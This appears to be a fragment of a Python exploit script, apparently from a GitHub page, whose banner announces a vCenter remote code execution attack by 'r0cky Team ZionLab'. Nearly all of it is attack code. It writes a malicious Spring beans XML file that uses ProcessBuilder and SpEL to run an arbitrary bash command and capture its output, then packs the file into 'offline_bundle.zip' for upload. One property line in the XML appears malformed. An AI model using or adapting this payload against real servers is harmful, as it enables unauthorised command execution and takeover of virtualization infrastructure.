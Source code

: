 ```

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies={'https':'http://127.0.0.1:8080'}

def banner():
    print("""
==============================================================
         _____           _              _____   _____ ______ 
        / ____|         | |            |  __ \ / ____|  ____|
 __   _| |     ___ _ __ | |_ ___ _ __  | |__) | |    | |__   
 \ \ / / |    / _ \ '_ \| __/ _ \ '__| |  _  /| |    |  __|  
  \ V /| |___|  __/ | | | ||  __/ |    | | \ \| |____| |____ 
   \_/  \_____\___|_| |_|\__\___|_|    |_|  \_\\_____|______|

                              Powered by r0cky Team ZionLab
==============================================================
    """)



def create_xml():

    print("[*] Create Xml to offline_bundle.xml ...")
    context = """<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder">
        <constructor-arg>
          <list>
            <value>/bin/bash</value>
            <value>-c</value>
            <value><![CDATA[ {cmd} 2>&1 ]]></value>
          </list>
        </constructor-arg>
    </bean>
    <bean id="is" class="java.io.InputStreamReader">
        <constructor-arg>
            <value>#{pb.start().getInputStream()}</value>
        </constructor-arg>
    </bean>
    <bean id="br" class="java.io.BufferedReader">
        <constructor-arg>
            <value>#{is}</value>
        </constructor-arg>
    </bean>
    <bean id="collectors" class="java.util.stream.Collectors"></bean>
    <bean id="system" class="java.lang.System">
        <property #{ system.setProperty("output", br.lines().collect(collectors.joining("\n"))) }"/>
    </bean>
</beans>
""".replace("{cmd}", cmd)
    with open('offline_bundle.xml', 'w') as wf:
        wf.write(context)
        wf.flush()

def create_zip():
    print("[*] Create Zip to offline_bundle.zip ...")
    with zipfile.ZipFile('offline_bundle.zip', 'w', zipfile.ZIP_DEFLATED) as zp:
        zp.write('offline_bundle.xml')

```